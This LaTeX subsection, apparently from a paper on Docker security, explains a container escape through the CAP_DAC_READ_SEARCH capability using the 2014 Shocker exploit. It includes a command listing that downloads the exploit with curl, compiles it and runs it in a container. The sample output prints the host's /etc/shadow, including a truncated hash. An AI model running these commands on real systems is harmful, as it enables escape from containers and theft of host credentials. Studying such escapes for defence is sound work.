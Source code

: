 \subsubsection{\texorpdfstring{\lstinline{CAP_DAC_READ_SEARCH}}{CAP DAC READ SEARCH}}
Before Docker 1.0.0 \lstinline{CAP_DAC_READ_SEARCH} was added to the default capabilities that a containers are given. But this capability allows a process to escape its the container~\cite{Docker-Shocker-Seclists}. A process with \lstinline{CAP_DAC_READ_SEARCH} is able to bruteforce the internal index of files outside of the container. To demonstrate this attack a proof of concept exploit was released~\cite{Docker-Shocker}~\cite{Docker-Shocker-Analysis}. This exploit has been released in 2014, but still works on containers with the \lstinline{CAP_DAC_READ_SEARCH} capability.

\medskip

\begin{lstlisting}[caption={Docker escape using \lstinline{CAP_DAC_READ_SEARCH}.},captionpos=b]
(host)$ curl -o /tmp/shocker.c http://stealth.openwall.net/xSports/shocker.c
(host)$ sed -i "s/\/.dockerinit/\/tmp\/a.out/" shocker.c
(host)$ cc -Wall -std=c99 -O2 shocker.c -static
(host)$ docker run --rm -it --cap-add=CAP_DAC_READ_SEARCH -v /tmp:/tmp busybox sh
(cont)# /tmp/a.out
...
[!] Win! /etc/shadow output follows:
...
admin:$6$VOSV5AVQ$jHWxAVAUgl...:18142:0:99999:7:::
\end{lstlisting}

The exploit needs a file with a file handle on the host system to properly work. Instead of the default \lstinline{/.dockerinit} (which is no longer created in newer versions of Docker) we use the exploit file itself \lstinline{/tmp/a.out}. We start a container with the \lstinline{CAP_DAC_READ_SEARCH} capability and run the exploit. It prints the password file of the host (i.e. \lstinline{/etc/shadow}).
